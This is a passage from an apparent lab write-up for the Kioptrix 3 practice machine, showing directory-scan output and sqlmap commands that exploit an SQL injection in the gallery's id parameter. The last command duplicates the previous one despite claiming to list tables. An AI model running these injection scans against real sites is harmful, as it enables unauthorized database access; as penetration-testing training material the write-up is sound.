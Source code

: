 ```js
===============================================================
/search.php           (Status: 500) [Size: 725]
/index.php            (Status: 500) [Size: 5652]
/login.php            (Status: 500) [Size: 1998]
/register.php         (Status: 500) [Size: 725] 
/profile.php          (Status: 500) [Size: 1560]
/themes               (Status: 301) [Size: 362] [--> http://kioptrix3.com/gallery/themes/]
/photos               (Status: 301) [Size: 362] [--> http://kioptrix3.com/gallery/photos/]
/photos.php           (Status: 500) [Size: 1483]                                          
/gallery.php          (Status: 200) [Size: 1654]                                          
/p.php                (Status: 500) [Size: 1483]                                          
/g.php                (Status: 500) [Size: 3143]                                          
/tags.php             (Status: 500) [Size: 3213]                                          
/vote.php             (Status: 200) [Size: 32]                                            
/recent.php           (Status: 500) [Size: 2441]                                          
/logout.php           (Status: 500) [Size: 2085]                                          
/slideshow.php        (Status: 500) [Size: 725]
    
```
Now that we do have more information about files under /gallery directory, I started to explore some of availabe files that status code weren't 500, for example <em>gallery.php</em> was the one with which lead me to find SQL injection point in <strong>id</strong> parameter

![image](https://user-images.githubusercontent.com/85706972/200410064-47d8b3a9-a30e-49f8-aa16-0f40cbaf8aae.png)

From here we can start to automate the process and try to exploit the vulnerability with sqlmap

## Getting User Shell
#### SQLMAP Scan

As I was not sure with type of database we are working I started scan with simple banner grabbing

```js
sqlmap "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --cookie="provide cookie here" --risk=3 --level=3 --random-agent -b
```
![image](https://user-images.githubusercontent.com/85706972/200410437-338b2841-3efa-4877-84b1-732c2d8feb7c.png)

Next scan was to identify current database name

```js
sqlmap "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --cookie="provide cookie here" --risk=3 --level=3 --random-agent --dbms MySQL --current-db

```
After we found that database name which is <strong>gallery</strong> we can query for tables in next scan

```js
sqlmap "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --cookie="provide cookie here" --risk=3 --level=3 --random-agent --dbms MySQL --current-db
```

